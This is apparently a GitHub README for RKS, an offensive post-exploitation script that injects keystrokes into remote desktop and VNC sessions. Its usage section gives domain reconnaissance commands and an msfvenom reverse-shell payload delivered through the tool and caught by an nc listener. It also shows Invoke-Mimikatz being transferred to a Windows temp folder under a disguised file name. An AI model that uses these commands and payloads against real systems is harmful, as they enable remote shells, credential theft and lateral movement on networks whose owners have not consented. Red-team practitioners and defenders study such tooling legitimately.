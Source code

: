 # Description

## Introduction

A script to automate keystrokes through an active remote desktop session that assists offensive operators in combination with living off the land techniques.

## About RKS (RemoteKeyStrokes)

All credits goes to [nopernik](https://github.com/nopernik) for making it possible so I took it upon myself to improve it. I wanted something that helps during the post exploitation phase when executing commands through a remote desktop.

## Help Menu

```
$ ./rks.sh -h
Usage: ./rks.sh [-c <command | cmdfile> | -i <input_file> -o <output_file> -p <platform>] [-m <method>] [-w <windowname>] [-h]
Options:
    -c, --command <command | cmdfile>       Specify a command or a file containing to execute
    -i, --input <input_file>                Specify the local input file to transfer
    -o, --output <output_file>              Specify the remote output file to transfer
    -m, --method <method>                   Specify the file transfer or execution method
                                            (For file transfer "base64" is set by default if
                                            not specified. For execution method "none" is set
                                            by default if not specified)

    -p, --platform <operating_system>       Specify the operating system (windows is set by
                                            default if not specified)

    -w, --windowname <name>                     Specify the window name for graphical remote
                                            program (freerdp is set by default if not
                                            specified)

    -h, --help                              Display this help message
```

## Usage

### Internal Reconnaissance

- When running in command prompt

```
$ cat recon_cmds.txt
whoami /all
net user
net localgroup Administrators
net user /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain
net group "Domain Computers" /domain

$ ./rks.h -c recon_cmds.txt
```

### Execute Implant

- Execute an implant while reading the contents of the payload in powershell.

```
$ msfvenom -p windowx/x64/shell_reverse_tcp lhost=<IP> lport=4444 -f psh -o implant.ps1

$ ./rks.sh -c implant.ps1

$ nc -lvnp 4444
```

### File Transfer

- Transfer a file remotely when pivoting in a isolated network. If you want to specify the remote path on windows be sure to include quotes.

```
$ ./rks.sh -i /usr/share/powersploit/Privesc/PowerUp.ps1 -o script.ps1

$ ./rks.sh -i /usr/share/powersploit/Exfiltration/Invoke-Mimikatz.ps1 -o "C:\Windows\Temp\update.ps1" -m base64
```

### Specify Grapical Remote Software

- If you're targeting VNC network protocols you can specify the window name with `tightvnc`.

`$ ./rks.sh -i implant.ps1 -w tightvnc`

- If you're targeting legacy operating systems with older RDP authentication specify the window name with `rdesktop`.

`$ ./rks.sh -i implant.bat -w rdesktop`

## TODO and Help Wanted

- Implement Base64 file transfer

- Implement Bin2Hex file transfer

- Implement to read shellcode input and run C# implant and powershell runspace

## References

- [Video: sethc.exe Backdoor CMD Payload delivery (USB Rubber Ducky style)](https://www.youtube.com/watch?v=8YFEujJUxws)

- [Original Script](https://github.com/nopernik/mytools/blob/master/rdp-cmd-delivery.sh)

## Credits

- [nopernik](https://github.com/nopernik)
